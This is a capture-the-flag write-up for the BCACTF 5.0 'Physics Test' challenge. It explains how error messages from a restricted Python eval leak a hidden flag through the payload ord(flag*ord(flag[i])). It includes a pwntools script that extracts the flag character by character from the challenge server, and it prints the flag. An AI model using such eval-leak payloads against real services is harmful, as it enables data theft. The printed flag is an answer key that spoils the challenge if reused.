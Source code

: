 # BCACTF 5.0

## Physics Test

> Help me get an A in Physics! My teacher made this review program for us.
> 
> Author: Marvin
> 

Tags: _misc_

## Solution
This time we don't have attachments but only a `nc connection`. After connecting we are in a physics quiz.

```bash
Welcome to the Midterm Review!
This review will test your knowledge of physics formulas we have learned this unit.
Be sure to write all of your answers in terms of x and y!


---------------------------------------------------------------------


Question 1: A box starts at rest on a frictionless table. It has a constant acceleration of x. How far does it travel in y seconds?
Answer:
```

By trying out various inputs we can gather a bit of informations about how our answer is evaluated. We see that the answer is put through `eval` but most `builtins` removed (except `ord` and `len`). Also variables `x`, `y` and `flag` are passed to it.

```bash
Answer: qwe
Running tests...
Traceback (most recent call last):
  File "/home/ctf/physics-test.py", line 32, in <module>
    res = eval(answer, {'__builtins__': None, 'ord': ord, 'len': len}, {'x': x, 'y': y, 'flag': flag})
          ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "<string>", line 1, in <module>
TypeError: 'NoneType' object is not subscriptable
```

If we put `flag` as answer we get another error. Interestingly we can leak information about the flag by putting `ord(flag)` to the eval.

```bash
Answer: flag
Running tests...
Traceback (most recent call last):
  File "/home/ctf/physics-test.py", line 33, in <module>
    if abs(expected - res) > 0.1:
           ~~~~~~~~~^~~~~
TypeError: unsupported operand type(s) for -: 'int' and 'str'
```

Interestingly we can leak information about the flag by putting `ord(flag)` to the eval. This in fact gives us the length of the flag, which is `33` characters long.

```bash
Answer: ord(flag)
Running tests...
Traceback (most recent call last):
  File "/home/ctf/physics-test.py", line 32, in <module>
    res = eval(answer, {'__builtins__': None, 'ord': ord, 'len': len}, {'x': x, 'y': y, 'flag': flag})
          ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "<string>", line 1, in <module>
TypeError: ord() expected a character, but string of length 33 found
```

Nice, with this we can exfiltrate the full flag by passing `ord(flag*ord(flag[0]))`. The `*` operator used with a string, duplicates the string `n` times. So `'a'*3` would be `'aaa'` etc.. The code above duplicates the flag `ord(flag[0])` times, whereas `ord(flag[0])` is the ascii code of the first character of the flag. We when divide the leaked result by the length of the flag to get the ascii code of the flag character back.

```bash
Answer: ord(flag*ord(flag[0]))
Running tests...
Traceback (most recent call last):
  File "/home/ctf/physics-test.py", line 32, in <module>
    res = eval(answer, {'__builtins__': None, 'ord': ord, 'len': len}, {'x': x, 'y': y, 'flag': flag})
          ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "<string>", line 1, in <module>
TypeError: ord() expected a character, but string of length 3234 found
```

We got `3234`, divided by the flag length `33` we have `98` which is the ascii code for `b`. Since we don't want to do this manually, we write a script for this.

```bash
from pwn import *

# query ord(flag)
LEN = 33

def fetch(char):
    p = remote("challs.bcactf.com", 30586)
    p.sendlineafter(b"Answer: ", f"ord(flag*ord(flag[{char}]))".encode())
    p.recvuntil(b"but string of length ")
    flag_char = int(p.recvline().split()[0])//LEN
    print(chr(flag_char),end="")

for i in range(LEN):
    fetch(i)
```

Running this gives us the flag:
```bash
$ python foo.py SILENT=1
bcactf{yoU_p4ssED_b0ef030870ec18}
```

Flag `bcactf{yoU_p4ssED_b0ef030870ec18}`